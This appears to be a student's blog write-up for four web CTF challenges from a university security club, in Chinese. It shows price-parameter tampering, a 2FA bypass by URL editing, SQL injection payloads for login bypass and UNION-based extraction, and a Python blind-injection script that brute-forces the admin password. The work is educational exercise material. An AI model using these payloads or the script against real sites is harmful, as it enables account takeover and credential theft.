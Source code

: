 ```yaml
---
title: 2023 Fall Bamboofox社課題解 Week 1
top_img: transparent
date: 2023-10-02 23:31:07
tags:
    - 資安
    - WebSecurity
    - Bamboofox社課題解
categories:
    - Bamboofox社課
cover: Bamboofox社課/bamboofox-2023-fall-week1/110855742.jpg
description: 2023 Fall Bamboofox社課題解 Week 1 (WebSecurity)
---
```


[本周題目](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges)

## 1. [[Web] Cat shop](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/271)

這題要利用[BurpSuite](https://portswigger.net/burp)來監聽網頁。

進入BurpSuite，開proxy讓他能夠代理收發瀏覽器裡面的http request，隨便買一隻貓，會發現購買介面的連結為
```bash
http://bamboofox.cs.nctu.edu.tw:11306/item/5428
```
最後面的編號是照順序的，可以推知，flag的編號是5430，所以可以直接改連結進到購買flag的畫面

這時候會發現錢不夠用，從之前的post可以看出，貓咪的價格是直接寫在post裡的，最底下會有:
```bash
item_id=5430&cost=2147483648
```
這時候只要打開攔截，把post中的cost修改成1之類的小數字，就可以有足夠的錢購買了，成功獲得flag。

## 2. [[Web] Login Panel (login)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/267)

這題登入admin的SQL為:
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = '輸入的password'
```
它會自動找到admin並登入，不過只要密碼錯誤，AND的後項就不會成立，造成整個式子False。所以要想辦法讓它必然是True。

這裡使用SQL injection的技巧，把密碼設計成以下:
```sql
' OR ''='
```
放進去password的地方之後，SQL變為:
```sql
SELECT * FROM Users WHERE username = 'admin' AND password = '' OR ''=''
```
因為空字串必等於空字串，因此此式必定成立，就可以在任意密碼下登入admin帳號

登入之後，雖然不知道2FA碼是多少，但我們知道guest登入之後，所在的路徑是dashboard結尾。
```bash
https://login-panel.ching367436.me:8443/dashboard
```
所以嘗試把admin登入後網址的2fa結尾，直接改成dashboard結尾就可以得到flag了:

## 3. [[Web] Login Panel 2 (password)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/269)

這題的關鍵在於，登入進去之後，會有一句Welcome back username。因為這個username是從資料庫裡取出來的，所以我們可以試著讓他取出來的東西不是username，而是flag(此題的flag為admin的密碼，標題有寫)

這題跟上題的方法類似，不過要用到SQL語法裡的UNION來設計，設計出以下的密碼:
```sql
' UNION SELECT 1,(SELECT password FROM Users WHERE username='admin'),3,4 --
```
讓SQL變成
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = '' UNION SELECT 1,(SELECT password FROM Users WHERE username='admin'),3,4 --'
```
前面的SELECT必定失敗，但是透過UNION，他會同時在SELECT另一個東西，當SELECT的東西不存在時，他會自己創造一個。這裡透過創造一個第二欄(username欄)的值是資料庫中，admin的密碼。就可以讓他Welcome back的username是admin的密碼，也就是flag。

順帶一提，這個資料庫的table欄位為:id,username,password,code

## 4. [[Web] Login Panel (password)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/268)

這題跟第一題的網站是一樣的，不過這次不是要登入，而是要試出admin的password(如標題所述)

這題有擋第3題的方法，因此我們不能夠直接抓到admin的password，但我們這裡可以配合python暴搜admin的密碼是甚麼。

首先設計密碼為:
```sql
g' OR substr((SELECT password FROM Users WHERE username='admin'), 1, 1)='B' --
```
登入的SQL變成底下這樣
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = 'g' OR substr((SELECT password FROM Users WHERE username='admin'), 1, 1)='B' --'
```
這個SQL代表，OR當admin的password的substring從第1位開始數，長度為1的字串(第1個字)，等於'B'時，OR後面的東西會是True，會成功登入。

透過這個方法，我們可以一一檢測，admin的password中的某一位是不是某個字，如果是的話，就會接收到成功登入的回傳html。

寫成python的爆搜方法如下(我寫得不好，這個code要跑頗久，建議建表之類的改良)，至於post應該帶甚麼內容，可以自己用BurpSuite看:
```py
import requests;

URL = 'https://login-panel.ching367436.me:8443/login?msg=invalid_credentials'
stop = 0
flag = ''
for num in range(1,100):
    if stop:
        break
    print(f"now if run position {num}")
    for i in range(1,128):
        trychar = i.to_bytes(1,'big').decode() # 關於此行的詳細，請參考https://hackmd.io/@9UfXRWPzS62YaxdR7uwZ0Q/B1K4TRr16
        post = requests.post(URL,
                            {
                                'username':'guest',
                                'password':f'g\' OR substr((SELECT password FROM Users WHERE username=\'admin\'), {num}, 1)=\'{trychar}\' --',
                            }
        )

        if '2FA' in post.text: # 登入頁面會有2FA字樣
            flag += trychar
            if trychar == '}':
                stop = 1
            break
    print(flag)
```

封面圖來源: [恥じらい虹夏ちゃん…///](https://www.pixiv.net/artworks/110855742)

---